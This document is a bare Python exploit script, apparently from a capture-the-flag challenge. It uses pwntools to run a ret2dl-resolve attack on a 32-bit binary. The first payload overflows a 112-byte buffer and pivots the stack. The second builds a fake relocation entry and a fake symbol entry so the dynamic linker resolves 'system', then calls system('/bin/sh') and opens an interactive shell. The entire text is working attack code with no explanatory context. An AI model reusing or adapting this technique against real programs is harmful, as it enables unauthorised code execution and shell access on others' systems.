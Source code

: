 ```python
payload1='a'*112
payload1+=p32(read_plt)
payload1+=p32(p_p_p_ret)
payload1+=p32(0)
payload1+=p32(base_stage)
payload1+=p32(100)
payload1+=p32(pop_ebp_ret)
payload1+=p32(base_stage)
payload1+=p32(leave_ret)

JMPREL=0x8048318
SYMTAB=0x80481d8
STRTAB=0x8048268
plt_start=0x8048370
fake_rel_addr=base_stage+28
rel_offset=fake_rel_addr-JMPREL
binsh_addr=base_stage+80
cmd='/bin/sh\x00'

fake_sym_addr=base_stage+36
align=0x10-((fake_sym_addr-SYMTAB)&0xf)
fake_sym_addr=fake_sym_addr+align
r_info=((fake_sym_addr-SYMTAB)/0x10<<8)|0x7
fake_rel=p32(write_got)+p32(r_info)

fake_name_addr=fake_sym_addr+16
st_name=fake_name_addr-STRTAB
fake_sym=p32(st_name)+p32(0)+p32(0)+p32(0x12)

payload2='aaaa'
payload2+=p32(plt_start)
payload2+=p32(rel_offset)
payload2+='dead'
payload2+=p32(binsh_addr)
payload2+='bbbb'
payload2+='bbbb'
payload2+=fake_rel
payload2+='c'*align
payload2+=fake_sym
payload2+='system\x00'
payload2=payload2.ljust(80,'d')
payload2+='/bin/sh\x00'
payload2=payload2.ljust(100,'d')

io.recvuntil('2015~!')
io.sendline(payload1)
sleep(1)
io.sendline(payload2)

io.interactive()
```
